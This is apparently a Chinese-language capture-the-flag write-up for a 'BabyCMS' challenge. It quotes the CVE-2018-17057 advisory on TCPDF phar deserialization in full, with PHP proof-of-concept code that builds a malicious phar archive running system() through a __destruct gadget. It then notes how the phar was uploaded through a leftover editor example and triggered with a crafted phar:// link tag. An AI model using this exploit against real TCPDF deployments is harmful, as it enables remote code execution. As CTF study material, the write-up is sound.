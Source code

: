 # BabyCMS

提示说了 TCPDF，这个库用的是 6.2.8 版本。

TCPDF 6.2.22之前版本中存在安全漏洞。攻击者可利用该漏洞反序列化任意数据[（link）](http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-201809-735)。

太好了（不是

```php
CVE-2018-17057: phar deserialization in TCPDF might lead to RCE
---------------------------------------------------------------

Affected products
=================

TCPDF <= 6.2.19

Background
==========

"Started in 2002, TCPDF is now one of the world's most active Open Source
projects, used daily by millions of users and included in thousands of CMS
and Web applications." - https://tcpdf.org/

"PHP library for generating PDF documents on-the-fly." -
https://github.com/tecnickcom/TCPDF

Description
===========

TCPDF allows the developers to insert HTML code inside the PDF, which will
be translated to a similar-looking design during PDF creation. For example
it is possible to insert basic HTML tags, such as "img" or "b" and have the
image and bold text placed in the output PDF.
The library allows also to include custom CSS rules by defining a "link"
tag, like the following:
<link type="text/css" href="style.css">

While it is a nice feature to have for the developer, it may cause problems
in case the PDF creation script is vulnerable to Cross-Site Scripting (or
"Code Injection") issues through which an attacker can inject arbitrary
HTML code. For example during an invoice creation, an attacker can use its
information written on the invoice to insert a malicious "link" tag
pointing to a local phar archive and trigger a PHP Object Injection through
the phar:// scheme once the web application reads that file.

Exploit
=======

In order to test this vulnerability it's enough to clone the project from
github and checkout a vulnerable version, such as 6.2.19:
git clone https://github.com/tecnickcom/TCPDF.git && cd TCPDF && git
checkout tags/6.2.19

After that it is possible to craft a phar archive containing a malicious
PHP Object and potentially trigger a RCE, here is a vulnerable code which
helps to reproduce the issue:
<?php
/*
*    title:     PHP object injection via phar:// deserialization
*    author:    polict
*    target:    TCPDF (https://github.com/tecnickcom/TCPDF) <= 6.2.19
*    setup:     git clone https://github.com/tecnickcom/TCPDF.git && cd
TCPDF && git checkout tags/6.2.19
*/

/* include vulnerable class (any PHP Object Injection gadget can be used,
see https://github.com/ambionics/phpggc) */
class Vulnerable {
    function __destruct() { system($this->hook); }
}

/* include the main TCPDF library */
require_once('tcpdf.php');
/* create new PDF document */
$pdf = new TCPDF(PDF_PAGE_ORIENTATION, PDF_UNIT, PDF_PAGE_FORMAT, true,
'UTF-8', false);
/* set document information */
$pdf->SetAuthor('polict');
$pdf->SetTitle('Proof of concept');
/* start pdf */
$pdf->AddPage();
/* create some HTML content */
$html = '<link type="text/css" href="phar://./poc.phar">';
/* insert the HTML content -- exploit will trigger here */
$pdf->writeHTML($html, true, false, true, false, '');
/* close and output PDF document */
$pdf->Output('poc.pdf', 'I');

In order to create the evil archive it's possible to use PHP:
<?php
$phar = new Phar('poc.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

$malicious_object = new Vulnerable();
$malicious_object->hook = "whoami";
$phar->setMetadata($malicious_object); // <-- inject the trigger

$phar->stopBuffering();

The archive will be in 'poc.phar'.

Note: This vulnerability depends on the developer using writeHTML() with
user-supplied input.

Author
======

This issue was discovered by polict (https://polict.net).

Timeline
========

17 august 2018:
—> report to developer

14 september 2018:
—> ping
<— released 6.2.20 (which re-introduced the vulnerability reported by Sam
Thomas, see
https://github.com/s-n-t/presentations/blob/master/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It.pdf
)
—> ping about re-introduction of old vulnerability
<— released 6.2.22 with fix for both
MITRE assigned CVE-2018-17057

17 march 2019:
public release
```

这个垃圾网站可以通过 `http://111.186.57.85:30042/index.php/Home/Index/xls` 和 `http://111.186.57.85:30042/index.php/Home/Index/csv` Dump 数据。但是，这两个接口的路径都是写死的——没办法直接把 flag 打印出来。

> 可惜

根据 Hint 1: tcpdf，他有一个 `/pdf` 接口，直接通过 HTML 生成 PDF。

这个 tcpdf 有个反序列化漏洞，可以任意执行 phar。

那么，我们就开始生成：

```php
<?php
$phar = new Phar('poc.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

$malicious_object = new Vulnerable();
$malicious_object->hook = "echo flag";
$phar->setMetadata($malicious_object); // <-- inject the trigger

$phar->stopBuffering();
>
```

构造好了这个 phar，但是要把它放到服务器上才能用。遗憾的是，服务器关于上传部分的代码被注释掉了。

好奇怪…按理说这里应该就这种攻击方式了。但是找不到办法去传入 phar。

捏着鼻子把 baijunyao 的代码跟文档读了一遍。然後跟「魔改版」diff 了一下。

几乎一行新代码没加，倒是把原来的代码 Comment 了一大堆。

> 你这不叫「魔改」，叫「阉割」

不过，这道题里割掉了这一个 `_empty` 方法，导致简单的任意模版调用不可行了。

```php
    /**
     * 拦截空方法 自动加载html
     * @param  string $methed_name 空方法
     */
    // Sorry for this...
    // public function _empty($methed_name){
    //     $this->display($methed_name);
    //     exit(0);
    // }
```

新加的代码，只有一行：

![image-20201011163237637](notes.assets/image-20201011163237637.png)

```
    public function __toString()
    {
        file_put_contents("step4", "data");
        return $this->serializeToXml();
    }
```

翻了一下原仓库，是没有这个更动的。

> 五年来没动过；
>
> > 尽管这行代码怎么看都不像正常功能代码；
> >
> > 但这个作者的狂乱代码风格让我不禁有些怀疑；
> >
> > > 已经被他所有标点符号都用分号（竟然还是中文分号！）代替的文风洗脑了；

换言之，如果我们调用一次这个类型的 `__toString` 魔法方法，就会在当前目录下创建一个 `step4` 文件，并向其中写入 `data`。

那么该怎么调用呢？Static 中有个 Umeditor Example。

> 这种东西居然能打包进生产环境？

把 phar 放进来：

```
http://111.186.57.85:30042/Public/statics/umeditor1_2_3/php/upload/20201012/16024844906165.gif
```

得到 URL：

`phar://../../Public/statics/umeditor1_2_3/php/upload/20201012/16024844906165.gif`

构造 HTML：

```html
<link type="text/css" href="phar://../../Public/statics/umeditor1_2_3/php/upload/20201012/16024844906165.gif">
```

就可以执行了。

唯一的问题就是：怎么找到那个 `__destruct` 中 `echo` 的 Vulnerable 函数。
